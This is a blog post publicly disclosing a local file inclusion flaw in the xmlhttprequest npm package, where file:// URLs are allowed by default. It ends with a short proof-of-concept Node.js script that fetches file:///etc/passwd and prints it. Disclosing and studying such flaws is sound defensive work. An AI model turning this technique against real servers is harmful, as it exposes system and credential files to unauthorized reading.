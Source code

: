 ```yaml
---
title: Disclosing a local file inclusion vulnerability in xmlhttprequest library
description: >-
  I found a Local File Inclusion (LFI) security vulnerability in xmlhttprequest library but it's still unfixed.
date: '2023-04-27'
pubDate: '2023-04-27'
categories: []
keywords: []
draft: false
tags: ["security", "vulnerability", "advisory", "cve", "xmlhttprequest", "local-file-inclusion", "lfi"]
slug: local-file-inclusion-in-xmlhttprequest-library
image: ~/assets/images/blog/photo-1516849677043-ef67c9557e16.jpg
---
```


## What is the `xmlhttprequest` npm package?

The open-source npm package `xmlhttprequest` is a library for Node.js server-side projects to use a browser-like HTTP client. Mostly intended for a convenient API purposes, it is technically a wrapper around Node.js's core modules of `http` and `https`.

## Publicly disclosing a vulnerability in `xmlhttprequest`

As shared in a prior public disclosure report for the `xmlhttprequest` library, I discovered several security issues with the library and have reached out to the maintainer in hopes to report the security issue and get it fixed. However, they deemed it as not a flaw in security design and did not consider it as a viable vulnerability.

I'm sharing my findings here to publicly disclose the vulnerability.

## Incorrect Default Permissions in xmlhttprequest@1.8.0 lead to Local File Inclusion

Observations:
- It was last published 7 years ago in 2015 with version 1.8.0
- It has 1,814,290 weekly downloads from npm

Source code and registry resources for the library:
 * [Project's GitHub source code](https://github.com/driverdan/node-XMLHttpRequest)
 * [Project's npm package](https://www.npmjs.com/package/xmlhttprequest)

### Background on the vulnerability

The library mentions support by default for local file access in its [known issues](https://github.com/driverdan/node-XMLHttpRequest#known-issues--missing-features)
README documentation.

Given a scenario that an attacker controls the URL to be fetched using this HTTP client library, and that no explicit sanitization is performed for the URL and its scheme, it may result in arbitrary file read access, due to insecure default permission. Arbitrary file read access is scoped to the global file system for the web application or server using this library to make HTTP requests.

Related: local file system access [code handling](https://github.com/driverdan/node-XMLHttpRequest/blob/master/lib/XMLHttpRequest.js#L302-L329) on xmlhttprequest library.

This vulnerability should probably be classified as a 
[CWE-276](https://cwe.mitre.org/data/definitions/276.html): Incorrect Default Permissions.

### Proof of Concept exploit

Install the latest known vulnerable version of xmlhttprequest:
1. Install `xmlhttprequest@1.8.0` which is the latest version of this package. We will use it for a client web application.

Create the following `client.js` file that makes use of the library to send a `GET` HTTP request:

```js
const { XMLHttpRequest } = require("xmlhttprequest")

const xhr = new XMLHttpRequest()
const url = 'file:///etc/passwd'

a();

function a() { 
    // access local server files:
    xhr.open("GET", url)
    xhr.onreadystatechange = function() {
        if (this.readyState == 4) {
            console.log(this.responseText)
        }
    }
}

xhr.send()
```

Run this code snippet as a local Node.js script.

Observe that the the program prints the contents of the `/etc/passwd` file from your local file system.
